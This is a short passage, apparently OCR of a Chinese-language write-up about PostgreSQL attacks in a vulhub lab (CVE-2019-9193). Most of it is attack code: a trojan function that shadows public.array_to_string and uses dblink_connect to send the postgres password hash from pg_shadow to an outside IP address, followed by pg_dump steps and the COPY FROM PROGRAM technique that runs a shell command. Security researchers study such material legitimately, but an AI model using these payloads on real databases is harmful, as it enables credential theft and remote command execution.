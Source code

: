 ```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=47.114.103.63 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

2、管理员操作数据库触发

```
docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub-CVE-2019-9193

DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

